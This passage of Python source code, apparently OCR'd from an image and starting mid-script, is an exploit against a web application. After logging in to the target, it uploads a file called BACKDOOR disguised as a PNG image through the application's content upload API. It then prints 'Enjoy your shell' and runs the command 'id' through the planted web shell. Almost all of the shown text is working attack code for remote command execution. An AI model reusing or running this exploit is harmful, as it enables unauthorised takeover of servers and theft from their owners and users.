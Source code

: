 ```python
        headers={"Accept": "application/json, text/javascript, */*; q=0.01"}, 
        timeout=10, 
    ) 

    try: 
        info = response.json() 
    except JSONDecodeError as exception: 
        print("Login failed, check creds") 
        sys.exit() 

    if "token" in info: 
        print(f"Successfully authenticated as {info['user']['first_name']} {info['user']['last_name']}") 
    else: 
        print("Login failed, check creds") 
        print(f"Response: {info}") 
        sys.exit() 
except RequestException as exception: 
    print(f"Request to target failed: {exception}") 
    sys.exit() 

try: 
    response = sess.post( 
        f"{path}/api.php?/content", 
        data={ 
            "name": FILENAME, 
            "chunk": 0, 
            "chunks": 1, 
            "upload_session_start": int(time()), 
            "visibility": "unlisted", 
            "license": "all", 
            "max_download": "none", 
        }, 
        files={ 
            "file": (FILENAME, BACKDOOR, "image/png"), 
        } 
    ) 
    try: 
        info = response.json() 
    except JSONDecodeError as exception: 
        print("Upload failed, check response:") 
        print(response.text) 
        sys.exit() 

    backdoor_url = info["original"]["url"] 
    print(f"Enjoy your shell at {backdoor_url}?cmd=id") 
    print(sess.get(f"{backdoor_url}?cmd=id").text) 
except RequestException as exception: 
    print(f"Upload failed :'(")

```
